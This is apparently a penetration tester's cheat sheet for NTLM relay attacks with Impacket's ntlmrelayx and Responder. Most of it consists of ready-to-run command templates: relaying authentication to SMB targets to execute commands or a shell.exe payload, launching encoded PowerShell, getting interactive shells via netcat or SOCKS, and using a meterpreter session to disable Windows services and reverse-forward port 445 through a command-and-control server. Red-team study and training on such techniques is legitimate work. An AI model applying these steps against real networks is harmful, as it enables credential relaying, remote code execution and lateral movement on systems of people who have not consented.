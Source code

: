 # Impacket

## 01 - NTLMRelayX

### 1.2 - Usage

TODO: Fill more info

`$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -c <commands>`

`$ sudo ntlmrelayx -tf targets.txt -smb2support -c <commands>`

`$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -e shell.exe`

`$ sudo ntlmrelayx -tf targets.txt -smb2support -e shell.exe`

- Interactive shell with netcat

`$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -socks`

`$ nc 127.0.0.1 <PORT>`

### 1.3 - Use Cases

#### 1.3.1 - Callback Shell

- Modify in the Responder configuration file

`$ sudo nano /etc/responder/Responder.conf`

---

```
SMB=OFF
HTTP=OFF
```

- Start the Responder

`$ sudo responder -I <interface> -rdw`

Spawn callback shell

`$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -e shell.exe`

`$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -c "powershell.exe -E <base64_encoded>"`

Interactive shell with netcat

`$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -i`

`$ nc 127.0.0.1 <PORT>`

#### 1.3.2 - Proxychains via Relaying

##### 1.3.2.1 - Hijack Host and Setup MITM

- Disable SMB to spoof the targets via proxychains

```
$ sudo ntlmrelayx -t smb://<target_IP> -smb2support -socks

meterpreter > shell

C:\> sc stop netlogon

C:\> sc stop lanmanserver

C:\> sc config lanmanserver start=disabled

C:\> sc stop lanmanworkstation

C:\> sc config lanmanworkstation start=disabled

C:\> shutdown /r

C:\> exit
```

Add a reverse port forward to 445 to relay SMB attack via the command and control server (metasploit)

`meterpreter > portfwd add -R -L <bind_target_IP> -l 445 -p 445`

- Cleanup

```
meterpreter > shell

C:\> sc config lanmanserver start=auto

C:\> sc start lanmanworkstation

C:\> sc config lanmanworkstation start=auto

C:\> sc start netlogon
```

---
## References

- [AD Series: How to Perform Broadcast Attacks Using NTLMRelayx, MiTM6 and Responder](https://raxis.com/blog/ad-series-how-to-perform-broadcast-attacks/)

- [Tryhackme HOLO](https://stimpz0r.com/tryhackme-holo/)

- [How to Exploit Active Directory ACL Attack Paths Through LDAP Relaying Attacks](https://www.praetorian.com/blog/how-to-exploit-active-directory-acl-attack-paths-through-ldap-relaying-attacks/)

- [Rasta Mouse: NTLM Relaying via Cobalt Strike ](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)

- [Relaying NTLM to MSSQL](https://blog.compass-security.com/2023/10/relaying-ntlm-to-mssql/)